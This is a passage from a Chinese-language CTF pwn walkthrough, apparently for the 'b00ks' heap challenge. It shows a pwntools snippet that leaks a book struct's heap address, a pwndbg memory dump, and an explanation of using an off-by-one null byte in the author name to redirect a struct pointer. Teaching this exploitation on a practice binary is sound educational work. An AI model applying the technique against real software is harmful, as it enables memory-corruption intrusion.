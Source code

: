 ```python
log.info("Leaking book_1's address...")
time.sleep(1)
p.sendline("4")
p.recvuntil("Author: ")
p.recv(32)
book1_addr = u64(p.recv(6) + '\x00\x00')
```

## 3、覆盖原有的结构体指针
在之前我们已经泄露出了book1结构体的指针，**<font style="color:#F5222D;">ctrl+c</font>**进入调试，输入命令“x/20gx 0x0000555555757760”以查看结构体的信息：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1599984179792-35bf2204-e196-404f-98c6-12a77bb34640.png)

```python
pwndbg> x/20gx 0x0000555555757760
0x555555757760:	0x0000000000000001	0x0000555555757670 #book1结构体范围
0x555555757770:	0x0000555555757690	0x00000000000000c8 #book1结构体范围
0x555555757780:	0x0000000000000000	0x0000000000000031 #book1结构体范围
0x555555757790:	0x0000000000000002	0x00007ffff7fc0010 #book2结构体范围
0x5555557577a0:	0x00007ffff7f9e010	0x0000000000021000 #book2结构体范围
0x5555557577b0:	0x0000000000000000	0x0000000000020851 #book2结构体范围
0x5555557577c0:	0x0000000000000000	0x0000000000000000
0x5555557577d0:	0x0000000000000000	0x0000000000000000
0x5555557577e0:	0x0000000000000000	0x0000000000000000
0x5555557577f0:	0x0000000000000000	0x0000000000000000
pwndbg> 

```

可以看到上半部分就是book1的结构体，下半部分为book2的结构体，我们这里看book1的结构体：

+ 0x555555757760：book1_id
+ 0x555555757768：book1_name：0x0000555555757670
+ 0x555555757770：book1_desc：0x0000555555757690

那记事本记一下：0x555555757770这个地址存放的是book1_desc的地址，请记住这个地址，之后要用到。



我们在这里停一下，思考一下：既然book1的结构体指针低位能够覆盖作者名的\x00，那么作者名的\x00是不是也可以覆盖结构体指针的低位呢？

正好这个程序有一个修改作者名的功能，输入新的作者名依然会存放在0x202018中，我们可以预想一下：现在book1的结构体起始地址为0x0000555555757760，那么被覆盖之后就会变为0x0000555555757700，地址0x0000555555757700存放的是什么呢？答案是book1_desc的地址。

---

如果你是一步一步跟着我做的话，现在应该在终端输入c继续运行：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1599984643039-fbb21e55-4c4b-4158-a17e-e8415bc32ddd.png)

接着ctrl+c回到调试界面，重新找到作者名的位置：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1599984705380-efc8dad8-189b-4b49-816e-6779a481d107.png)
